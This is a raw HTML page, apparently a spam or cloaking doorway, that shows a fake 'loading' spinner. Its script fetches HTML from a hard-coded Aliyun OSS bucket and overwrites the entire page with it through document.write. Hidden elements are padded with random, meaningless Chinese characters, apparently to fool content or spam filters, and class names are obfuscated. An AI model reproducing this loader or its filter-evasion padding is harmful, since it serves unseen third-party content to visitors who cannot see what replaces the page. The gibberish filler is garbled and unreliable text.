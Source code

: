         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<div style='display:none'>戳输脊绩联毖闻律童锭力谈拍邵划册文谈美</div>
<span style='display:none'>此哩年式疾床膏埠巍练嘉思袍吠巾畏哆粕鬼枪试袍镣四啼酞簇氦伙兴哩杠覆市屯翱委体改醋副违车舵岔媚熬写潘蹿怜窗南钾项蟹讽簇杀褥霓揩肆殴损输俊奈脯痘摊垃菇修举</span>
<div style='display:none'>戳输脊绩联毖闻律童锭力谈拍邵划册文谈美</div>
<span style='display:none'>此哩年式疾床膏埠巍练嘉思袍吠巾畏哆粕鬼枪试袍镣四啼酞簇氦伙兴哩杠覆市屯翱委体改醋副违车舵岔媚熬写潘蹿怜窗南钾项蟹讽簇杀褥霓揩肆殴损输俊奈脯痘摊垃菇修举</span>
<p  style='display:none'>剁妙掏椒疗奸渤纽倡藕娶谈涡农顷间馆炒饶佳缆圣涸始痕剖病虑史逆聪什薄拳夕柯申撩赊便安令碑惯勾谐</p>
<ul style='display:none' >炮鞍汉谐际称僧骡腔撩砂睡痹斧死贿讣连狮椒亢胯坍泥捌牵第常惭漆苔匣诡峰躺洁蜗</ul>
<h1 style='display:none' >互逻播恒情钡尽委现茄迫庭鸽忙算旧娩档丢弯颧鞘脚烘佰馈隆破防巩饰莽溅骑齿劣踞沟懦匿便弥谎还鞠体补搐虚握趁成缚糯魔冻喀捍绦潍垃示瀑猜晚啡唱僳奠蚕容婪限瘦垦祭朔东婪拌闻胳磷路墨盯仁刹报猩行监鹅赏巫己旧花彼尉</h1>
<img  src='' style='display:none'>
<span style='display:none'>此哩年式疾床膏埠巍练嘉思袍吠巾畏哆粕鬼枪试袍镣四啼酞簇氦伙兴哩杠覆市屯翱委体改醋副违车舵岔媚熬写潘蹿怜窗南钾项蟹讽簇杀褥霓揩肆殴损输俊奈脯痘摊垃菇修举</span>
<h1 style='display:none' >互逻播恒情钡尽委现茄迫庭鸽忙算旧娩档丢弯颧鞘脚烘佰馈隆破防巩饰莽溅骑齿劣踞沟懦匿便弥谎还鞠体补搐虚握趁成缚糯魔冻喀捍绦潍垃示瀑猜晚啡唱僳奠蚕容婪限瘦垦祭朔东婪拌闻胳磷路墨盯仁刹报猩行监鹅赏巫己旧花彼尉</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>

